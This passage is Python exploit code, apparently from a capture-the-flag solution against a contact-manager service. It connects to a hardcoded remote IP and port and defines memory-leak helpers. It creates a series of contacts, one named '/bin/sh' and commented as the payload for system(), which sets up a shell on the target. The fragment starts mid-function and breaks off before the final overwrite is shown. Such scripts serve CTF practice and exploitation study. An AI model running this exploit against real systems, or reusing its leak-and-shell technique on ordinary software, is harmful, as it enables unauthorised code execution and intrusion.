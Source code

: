 ```python
    return m[0]
    
def leak4(x):
    return struct.unpack('I', leak(x)[0:4])[0]
    
def pwn():
    global s
    global last_addr
    last_addr = 0
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('127.0.0.1', 4444))
    s.connect(('54.165.223.128', 2555))
    readtil('>>> ')
    
    # create contact 1
    sendln('1')
    readtil('Name: ')
    sendln('BAR1')
    readtil('Phone No: ')
    sendln('0')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLEH')
    
    readtil('>>> ')
    
    # create contact 2
    sendln('1')
    readtil('Name: ')
    sendln('BAR2')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
    
    readtil('>>> ')
    
    # create contact 3 (used in write)
    sendln('1')
    readtil('Name: ')
    sendln('BAR4')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
    
    readtil('>>> ')

    # create contact 4 (used as payload for system())
    sendln('1')
    readtil('Name: ')
    sendln('/bin/sh')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
```
